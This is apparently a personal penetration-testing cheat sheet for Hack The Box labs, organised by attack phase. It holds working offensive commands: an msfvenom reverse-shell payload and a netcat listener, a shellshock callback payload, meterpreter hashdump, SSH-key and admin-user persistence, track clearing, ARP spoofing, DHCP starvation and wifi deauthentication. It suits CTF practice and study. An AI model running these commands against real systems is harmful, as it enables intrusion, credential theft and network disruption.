 # Phases
1. Recon
2. Scanning 
3. Gaining access
4. Maintaining access
5. Clearing tracks

# chains 
1. get access
   1. searchsploit
2. escalate access
3. upload rat
4. execute rat
5. deploy rat
   1. msfvenom cheat sheet aspx
6. clear tracks

# Recon
- theharvester -d $domain -l 500 -b google
- OSRFramework
  - usufy.py -n $target
  - mailfy.py -n $target # also checks if theyve been leaked
  - searchfy.py -n $target
  - domainfy.py -n $target
- nikto -host $ip
  - nmap -p80,443 $subnet -oG -  | nikto -h-
- openVAS ~nessus,   Greenbone Sec Assistant (gsad) GUI
  - apt install openvas
  - openvas-setup
  - omp -? 


# hack the box
- https://www.hackthebox.eu/home/rules
- https://www.hackthebox.eu/home/htb/access
  - OpenVPN
  - nmap -sC -sV 10.10.10.79
  - nmap --script vuln -oA nmap/vulnscan 10.10.10.79
  - sslyze --heartbleed 10.10.10.79:443
  - gobuster -u http://10.10.10.79 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
  - burp suite community edition
  - 
## Hack examples
- https://www.youtube.com/watch?v=JZN3JhoAdWo
- https://medium.com/bugbountywriteup/valentine-a-hackthebox-writeup-f5b731e35138
1. `Recon`
   1. get $IP of target from hackthebox.eu
2. `Scanning` 
   1. nmap $ip                    # better to use msfc db_nmap
      1. 8080/tcp                 # browse via web
   2. nmap -A -T4 -p- $ip         # ALL scan, OS/ver/script/traceroute detection.
      1.  5min to an hour
   3. nmap -sU -T4 -p1-1000 $ip   # 1000 UDP ports
   4. Leads
      1. smb                      # 139/tcp ntbios-ssnn
      2. ftp                        
      3. web app
   5. google search $lead exploit 
      1. exploit-db.com
      2. rapid7.com
      3. AutoBlue-MS17010 coded example
3. `Gaining access`
   1. msfconsole                  # Rapid7 Metasploit
      1. search $lead           # $keyword
      2. search $exploit-keyword-or-id
      3. use $exploit/aux
      4. info
      5. options
      6. show
      7. set $var $value
      8. exploit or run
   2. nessus??
4. `Maintaining access`
   1. meterpreter               # reverse shell
      1. getuid #windows command
      2. sysinfo
      3. help
      4. getsystem
      5. hashdump # get the SAM, pass hashes?
      6. find user.txt, or root.txt and submit to hackthebox.eu
      7. background
      8. search suggester
   2. msfvenom -p java/jsp_shell_reverse_tcp LHOST=$myip LPORT=$myport -f war > rat.war
      1. msfconsole
         1. use exploit/multi/handler
         2. set payload windows/x64/???
   3. nc -nvlp 1234 #netcat
      1. no tty # https://netsec.ws/?p=337
      2. escalate privlages
         1. sudo -u $user /bin/bash
         2. http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
   4. `testing callbacks`
      1. shellshock
         1. () { :; }; /bin/bash -c "ping -c 3 $myip; id;"
      2. sudo tcptump -i eth9 -n icmp
   5. `keeping access `
      1. if `root`, create another admin user
      2. use tools on server to setup ssh server
      3. create keys
         1. cd .ssh
         2. echo $id_rsa.pub >> authorized_keys 
         3. known_hosts??
         4. ssh to box
         5. scp user@ip:/path . 
5. `Clearing tracks`
   1. CCleaner
   2. Auditpol
6. Capture the flag (CTF)
   1. tag web with contents of user.txt


# Leads
1. ftp
   1. get/put $file
2. smb                                          # found smb service
   1. smbclient -L \\\\$ip\\      
      1. try to crawl folders
3.  web app
   2. default apps
      1. try default credential lists
         1. google app names and default credentials
         2. try in burp suite
   3. dirbuster&  # OWASP DirBuster
      1. /usr/share/wordlists/dirbuster/dir??    #list based
         1. iis7 ext "asm,asmx,asp,aspx"
4. linux
   1. quick http
      1. python -m SimpleHTPServer 80
5. windows privliaged escalation
   1. wget for windws
      1. certutil -urlcache -f $url
   2. windows expliot suggester
   3. https://www.fuzzysecurity.com/tutorials/16.html
      1. rasta-mouse / sherlock or watson

# encrypt the drive
sudo yum install cryptsetup-luks
sudo fdisk -l
sudo cryptsetup -y -v luksFormat <DEVICE_NAME>; #asks for passphrase
sudo cryptsetup luksOpen <DEVICE_NAME>; LA
sudo cryptsetup -v status LA
sudo cryptsetup luksDump <DEVICE_NAME>
sudo dd if=/dev/zero of=/dev/mapper/LA bs=128
sudo mkfs.ext4 /dev/mapper/LA
mkdir LA
sudo mount /dev/mapper/LA LA/
sudo umount LA/
sudo cryptsetup luksClose LA

# whois
geoip-bin
geoiplookup $ip

# arp poisoning
- ip forwarding on
- keeps telling target that the your host is the gw. 
echo 1 > /proc/sys/net/ipv4/ip_forward
ip route # get ip of router =$routerip
arpspoof -i eth0 -t $targetip -$routerip 
#use wireshark ip.addr == $targetip

# dhcp starvation = DoS
net-dhcp-leases default
dhcpstarv -i eth0
yersinia 

# wireless hacking
https://www.aircrack-ng.org/
wifi Monitoring mode? 
airmon-ng start $wifiadapter # from ifconfig
airodump-ng $newinterfacename
airodump-ng -c $ch --bssid $MAC -w capture $newinterfacename
airreplay-ng --deauth 0 -a -$MACap -c $MAC

# notes
smtp, expn


